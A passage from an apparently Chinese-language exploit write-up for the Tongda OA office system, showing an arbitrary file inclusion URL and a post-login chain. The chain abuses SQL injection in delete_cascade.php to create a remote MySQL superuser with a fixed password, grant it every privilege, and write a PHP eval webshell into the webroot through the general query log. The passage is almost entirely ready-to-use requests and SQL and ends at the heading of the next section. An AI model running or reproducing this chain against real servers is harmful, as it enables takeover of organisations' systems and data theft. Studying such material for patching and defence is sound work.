 ### <a class="reference-link" name="5%EF%BC%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB(%E9%9C%80%E8%A6%81%E7%99%BB%E5%BD%95)"></a>5，任意文件包含(需要登录)

```
http://192.168.0.116/ispirit/interface/gateway.php?json=`{`"url":"/general/reportshop/workshop/report/attachment-remark/`}`_1.txt"`}`
```

与前一个上传结合，可以实现rce

### <a class="reference-link" name="6%EF%BC%8C%E9%80%9A%E8%BF%87%E5%89%8D%E9%9D%A2%E7%9B%B2%E6%B3%A8%E6%B7%BB%E5%8A%A0mysql%E7%94%A8%E6%88%B7%EF%BC%8Crce(%E9%9C%80%E8%A6%81%E7%99%BB%E5%BD%95)"></a>6，通过前面盲注添加mysql用户，rce(需要登录)

通达oa默认是高权限sql用户

```
1,默认是不能远程连接的，添加用户远程连接 at666  abcABC@123
http://192.168.0.116/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

2,连接上数据库，此时权限只能访问到mysql，添加权限，在数据库软件中执行
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

3，之后刷新权限，在盲注点执行，不然权限不够
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;

4，再连接可能会报错you must set password before executing this statement
再多执行几遍：
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION 

5，连接数据库，
select @@basedir;
set global general_log = on;
set global general_log_file = 'C:/td0a117/webroot/tony2.php';
select '&lt;?php eval($_POST[x]);?&gt;';
show variables like '%general%';
```

### <a class="reference-link" name="7%EF%BC%8C%E6%95%8F%E6%84%9F%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2(%E9%9C%80%E8%A6%81%E7%99%BB%E5%BD%95)"></a>7，敏感信息泄露(需要登录)
